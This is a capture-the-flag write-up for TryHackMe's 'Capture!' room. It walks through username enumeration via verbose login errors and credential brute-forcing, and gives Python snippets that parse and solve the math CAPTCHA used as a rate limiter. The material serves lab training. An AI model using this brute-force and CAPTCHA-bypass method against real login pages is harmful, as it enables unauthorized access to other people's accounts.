



# Capture!


## Summary

[Capture!](https://tryhackme.com/room/capture "Capture Room On TryHackMe") is a CTF hosted on the [TryHackMe website](https://tryhackme.com/ "TryHackMe Website") and created by the user [Toxicat0r](https://tryhackme.com/p/toxicat0r "Toxicat0r's TryHackMe Profile"). The room contains a single flag that can be found through bypassing the target web pages authentication mechanism via bruteforcing credentials. The major hurdle in attempting to bypass the login arises from [rate-limiting](https://www.cloudflare.com/learning/bots/what-is-rate-limiting/ "CloudFlare Article On Rate Limiting") our requests. After about 3 attempts, a CAPTCHA appears that involves solving simple mathematical expressions.

**Description Used In Room:**

> Can you bypass the login form?

> SecureSolaCoders has once again developed a web application. They were tired of hackers enumerating and exploiting their previous login form. They thought a Web Application Firewall (WAF) was too overkill and unnecessary, so they developed their own rate limiter and modified the code slightly.

## Contents

* [Information Disclosure](#information-disclosure "Jump To Information Disclosure Section")
* [The Obstacle](#the-obstacle "Jump To The Obstacle")
* [A Possible Solution](#a-possible-solution "Jump To A Possible Solution")
* [Helpful Tools](#helpful-tools "Jump To Helpful Tools")
* [Code Examples](#code-examples "Jump To Code Examples")
* [Conclusion](#conclusion "Jump To Conclusion")

## Information Disclosure

If we visit the target website we'll be redirected to a login page.



Messing around with the login form by supplying any random credentials, such as ```fakeperson:fakepassword```, we can easily see where the vulnerability lies. Overly verbose error messages. This vulnerability is known as [Information Disclosure](https://portswigger.net/web-security/information-disclosure "PortSwigger Article On Information Disclosure") and in this case can be exploited to enumerate usernames since the message specifically tells us whether a user exists.



[Back To Top](#capture "Jump To Top")

---

## The Obstacle

When we try to enumerate the usernames we'll run into a problem. Our attempts are [rate-limited](https://www.cloudflare.com/learning/bots/what-is-rate-limiting/ "CloudFlare Article On Rate Limiting"). After several requests we'll need to pass a CAPTCHA that involves solving a mathematical problem.



[Back To Top](#capture "Jump To Top")

---

## A Possible Solution

A possible solution is to create a Python program to complete the below steps:

1. Load usernames and passwords into memory.
2. Iterate usernames.
3. For each username craft an HTTP POST request with username and a bad password.
4. Check if CAPTCHA has been triggered by parsing the HTML returned by the POST request for the following error message: ```Captcha enabled```.
5. If CAPTCHA is present grab the mathematical expression.
6. Strip the mathematical expression down to its two operands and operator.
7. Solve the expression.
8. Craft a new HTTP POST request with the same username and password but this time add a CAPTCHA parameter that contains the result from step 7.
9. Check the response HTML for the string ```The user &#39;[username goes here, remove brackets]&#39; does not exist```
10. If the username error appears in the HTML, move on to the next user and start the steps again. If the username error **does not** appear, a valid user has been found.

After a username has been found, the same steps from above can be used to enumerate passwords. Just be sure to check for the password error message and not the username error message (slightly modify steps 2, 3, 9, 10).

[Back To Top](#capture "Jump To Top")

---

## Helpful Tools

Here are some helpful Python libraries that will help you solve the steps above.

* [re](https://www.w3schools.com/python/python_regex.asp "W3 Schools Article On Python Regex") - RegEx library to help pulling the mathematical expression out of the form.
* [requests](https://docs.python-requests.org/en/latest/ "Python Requests Library Documentation") HTTP Requests library to help with sending POST requests and sending POST body data.
* [BeautifulSoup](https://pypi.org/project/beautifulsoup4/ "Beautiful Soup Documentation") - HTML parsing library to help pull the form out of every HTML response and parse through it (optional).

[Back To Top](#capture "Jump To Top")

---

## Code Examples

Sending POST Request:

```python
# Create POST Body Data
data = {'username': username_here, 'password': password_here}

# Send POST Request
response = requests.post(url_here, data=data)
```

Getting HTML Response From POST Request:

```python
# Send POST Request
response = requests.post(url_here, data=data)

# Grab HTML From Response
html = response.text
```

Looking For Error Messages:

**NOTE -** Using the error messages taken directly from the webpage won't work, you'll need to use the error messages as they appear in the HTML. Instead of the ```'``` character use the HTML encoding of the same character.

```python
# Look For CAPTCHA Error In HTML
if "Captcha enabled" in html:
    # Do Something

# Look For Valid Username By Checking If Username Error Does NOT Exist In HTML
if f"The user &#39;{username}&#39; does not exist" not in html:
    # Do Something

# Look For Valid Password By Checking If Password Error Does NOT Exist In HTML
if f"Invalid password for user &#39;{username}&#39;" not in html:
    # Do Something
```

Grabbing Form In HTML:

**NOTE -** The mathematical problem for the CAPTCHA is a child of the ```<form>``` element. It is **not** in it's own pair of tags.

```python
# Use BeautifulSoup Library To Create Parsable HTML Object
soup = BeautifulSoup(html, 'html.parser')

# Search The Soup Object For The Form
form_element = soup.find('form')

# Return Only The Text Within The Form, No HTML Tags.
text_content = form_element.get_text(strip=True)
```

Grabbing Expression In Form With Regex:

**NOTE -** ```r'\d+\s[+\-*]\s\d+\s=\s\?'``` will match the following format:

* Number, space, ```+``` ```-``` or ```*```, space, number, ```=```, space, ```?``` 

```python
# Get Matching Result Object From Regex On HTML Form That Was Stripped Of Tags In The Last Code Example
match_result = re.search(r'\d+\s[+\-*]\s\d+\s=\s\?', text_content)

# Grab The Expression From The Match Result Object
expression = match_result.group()
```

Solving The Expression:

```python
# Split The Expression Returned By The RegEx Into Pieces
expression_pieces = expression.split()

# Grab First Number
operand_1 = expression_pieces[0]

# Grab Operator
operator = expression_pieces[1]

# Grab Second Number
operand_2 = expression_pieces[2]

# Solve Expression
if operator == '+':
    result = int(operand_1) + int(operand_2)
elif operator == '*':
    result = int(operand_1) * int(operand_2)
elif operator == '-':
    result = int(operand_1) - int(operand_2)

# Return Result So It Can Be Appended To The Second POST Requests CAPTCHA Parameter
return result
```

Resend Request With New Parameter And Solved CAPTCHA:

```python
# Append New Parameter With Solved CAPTCHA As Value In Pre-Exisiting Data Variable
data['captcha'] = result

# Resend Request With Updated POST Body Data
response = requests.post(url_here, data=data)
```

[Back To Top](#capture "Jump To Top")

---

## Conclusion

To successfully solve this CTF you will need to create a custom script capable of solving the CAPTCHA every time you make a request. I added my own [Python script to solve this CTF](./capture.py "My Solution To This CTF") within this folder, feel free to look at it if you get stuck. Keep in mind it is a quick solution so the code used is not the best way to do things, nor is it the cleanest code. It also makes assumptions in some parts with little or no error handling, but it does work in finding both the username and password while solving the CAPTCHA.

[Back To Top](#capture "Jump To Top")
